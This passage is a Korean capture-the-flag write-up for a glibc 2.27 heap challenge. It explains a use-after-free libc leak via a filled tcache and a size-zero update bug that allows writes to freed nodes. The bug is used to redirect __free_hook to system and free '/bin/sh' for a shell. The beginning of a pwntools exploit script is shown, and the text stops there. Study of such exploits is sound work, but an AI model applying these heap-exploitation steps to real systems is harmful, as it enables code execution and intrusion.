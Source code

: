 특정 크기의 tcache를 꽉 채우고 tcache에 들어가지 않는 큰 크기의 공간을 할당하여 UAF를 통해 libc의 주소를 얻었다.

또, free된node에 적당히 아다리를 맞추면서 update를 할 때\
사이즈를 0으로 주게 되면 또 다른 free된 공간의 node에 write를 할 수 있는 버그가 존재하였다.

이를 이용해서 특정 노드를 아다리가 맞게 이름을 적당히 설정하고\
해당 노드의 포인터를 `__free_hook`으로 변환한 뒤에 `is_string`을 false값으로 읽어지도록 노드를 수정하였다.

이때, 위 과정을 정확하게 수행하기 위해서 몇 시간의 동적디버깅 끝에 오프셋을 모두 뽑았다 ㅠ

또, update하는 과정에서 `__free_hook` 주소를 입력할 때 `read_str`를 호출하게 되는데\
이때 해당 함수에서 UTF-8에 valid하지 않은 인풋이 들어오면 프로세스가 죽어버리는 현상이 있었다.\
이 때문에 `__free_hook` 주소의 모든 바이트가 0x80보다 작은지 검사하고 아니면 다시 연결하는 조건을 추가했다.\
단순 계산으로 약 1/16 정도의 확률이므로 조건을 맞추기는 어렵지 않았으나\
리모트 환경에서 한 번 프로세스를 실행하면 다시 연결할 수 없어서 접속 한 번 할 때마다 vm을 다시 요청해야했다...

\+ 대회가 끝난 후에 출제자 writeup을 봤을 땐 UTF-8 문제가 없어보여서 나중에 한 번 이유를 알아보기로 했다.

이후, 덮어 씌워진 노드를 update해서 `__free_hook`의 값을 `system` 주소로 수정했고\
`/bin/sh\x00`을 하나 만들고 삭제해서 쉘을 휙득하였다. 

 \
아다리만 맞으면 그대로 돌리고 가져가서 코드가 좀 지저분하다

> Exploit Script

```python
from http import cookies
from pwn import *
import requests

REMOTE=1
e = ELF('./chal_patched')
libc = ELF('./libc-2.27.so')

def insert(key,value,size=None):
    if LOGGING:
        if size is not None:log.info(f"insert({key=}, {value=}, {size=})")
        else:log.info(f"insert({key=}, {value=})")
    p.sendlineafter(b'>> ', b'1')
    p.sendlineafter(b'key >> ', str(key).encode())
    if isinstance(value, bytes):
        assert size is not None
        p.sendlineafter(b'is it String? (Y/N) >> ', b'Y')
        p.sendlineafter(b'size >> ', str(size).encode())
        p.sendlineafter(b'>> ', value)
    else:
        p.sendlineafter(b'is it String? (Y/N) >> ', b'N')
        p.sendlineafter(b'>> ', str(value).encode())

def search(key):
    if LOGGING:log.info(f"search({key=})")
    p.sendlineafter(b'>> ', b'2')
    p.sendlineafter(b'key >> ', str(key).encode())
    
def update(key, value, size=None):
    if LOGGING:log.info(f"update({key=}, {value=}, {size=})")
    p.sendlineafter(b'>> ', b'3')
    p.sendlineafter(b'key >> ', str(key).encode())
    if isinstance(value, bytes):
        assert size is not None
        p.sendlineafter(b'size >> ', str(size).encode())
        p.sendlineafter(b'>> ', value)
    else:
        p.sendlineafter(b'>> ', str(value).encode())

def delete(key):
    if LOGGING:log.info(f"delete({key=})")
```